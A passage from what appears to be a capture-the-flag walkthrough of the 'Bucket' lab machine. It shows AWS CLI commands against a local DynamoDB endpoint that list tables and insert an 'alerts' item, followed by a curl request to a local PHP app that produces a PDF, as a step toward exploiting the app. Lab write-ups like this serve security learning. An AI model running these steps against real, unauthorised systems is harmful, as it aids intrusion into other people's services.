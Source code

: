 ```
            },
            {
                "AttributeName": "data",
                "KeyType": "RANGE"
            }
        ],
        "TableStatus": "ACTIVE",
        "CreationDateTime": "2023-11-08T15:15:17.848000+00:00",
        "ProvisionedThroughput": {
            "LastIncreaseDateTime": "1970-01-01T00:00:00+00:00",
            "LastDecreaseDateTime": "1970-01-01T00:00:00+00:00",
            "NumberOfDecreasesToday": 0,
            "ReadCapacityUnits": 10,
            "WriteCapacityUnits": 5
        },
        "TableSizeBytes": 0,
        "ItemCount": 0,
        "TableArn": "arn:aws:dynamodb:us-east-1:000000000000:table/alerts"
    }
}

```
```
└─$ aws --endpoint-url http://s3.bucket.htb dynamodb list-tables
{
    "TableNames": [
        "alerts",
        "users"
    ]
}
```

- Let's create an item
```
└─$ aws --endpoint-url http://s3.bucket.htb dynamodb put-item --table-name alerts --item '{"title":{"S":"Ransomware"},"data":{"S":"TEST"}}'          
{
    "ConsumedCapacity": {
        "TableName": "alerts",
        "CapacityUnits": 1.0
    }
}

```

- Trigget the app
```
└─$ curl http://127.0.0.1:8000/index.php --data 'action=get_alerts'
```
```
roy@bucket:/var/www/bucket-app/files$ ls
348.html  result.pdf
```
